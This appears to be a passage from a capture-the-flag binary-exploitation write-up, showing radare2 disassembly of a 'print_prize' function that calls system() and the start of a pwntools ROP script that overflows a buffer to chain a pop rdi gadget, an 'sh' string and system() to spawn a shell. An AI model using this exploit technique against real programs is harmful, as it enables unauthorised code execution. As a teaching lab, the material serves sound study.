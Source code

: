 ```
0x004010d0    1 11           sym.imp.fclose
0x004010e0    1 11           sym.imp.strlen
0x00401110    1 11           sym.imp.fgets
0x00401120    1 11           sym.imp.strcmp
0x00401130    1 11           sym.imp.fprintf
0x00401140    1 11           sym.imp.fopen
```
```
[0x00401150]> s sym.print_prize ←
[0x00401236]> pdf ←
            ; CALL XREF from main @ 0x40172f
┌ 62: sym.print_prize (int64_t arg1);
│           ; var int64_t var_14h @ rbp-0x14
│           ; var int64_t var_4h @ rbp-0x4
│           ; arg int64_t arg1 @ rdi
│           0x00401236      f30f1efa       endbr64
│           0x0040123a      55             push rbp
│           0x0040123b      4889e5         mov rbp, rsp
│           0x0040123e      4883ec20       sub rsp, 0x20
│           0x00401242      897dec         mov dword [var_14h], edi    ; arg1
│           0x00401245      488d05bc0d00.  lea rax, str.cat_._prize.txt ; 0x402008 ; "cat ./prize.txt"
│           0x0040124c      4889c7         mov rdi, rax
│           0x0040124f      e89cfeffff     call sym.imp.system         ; int system(const char *string) ←
│           0x00401254      8945fc         mov dword [var_4h], eax
│           0x00401257      837dfcff       cmp dword [var_4h], 0xffffffff
│       ┌─< 0x0040125b      7514           jne 0x401271
│       │   0x0040125d      488d05b40d00.  lea rax, str.Error          ; 0x402018 ; "Error"
│       │   0x00401264      4889c7         mov rdi, rax
│       │   0x00401267      b800000000     mov eax, 0
│       │   0x0040126c      e88ffeffff     call sym.imp.printf         ; int printf(const char *format)
│       └─> 0x00401271      90             nop
│           0x00401272      c9             leave
└           0x00401273      c3             ret
```

`vim ./rop_exploit.py`:
```python
#!/usr/bin/python3

import signal
import sys
from pwn import *

# Addresses definition
offset = 120
pop_rdi_address = p64(0x4015dd)
sh_addr = p64(0x4031f5)
system_addr = p64(0x40124f)

# Payload crafting
payload = b"A" * offset  # Fills with 'A' to reach the offset
payload += pop_rdi_address  # Adds the address of the "pop rdi" gadget
payload += sh_addr  # Adds the address of the "sh" string
payload += system_addr  # Adds the address of the system() function

# SIGINT (Ctrl+C) handler
def def_handler(sig,frame):
    print("[-] Exiting...")
    sys.exit(1)

# Configure SIGINT (Ctrl+C) handling
```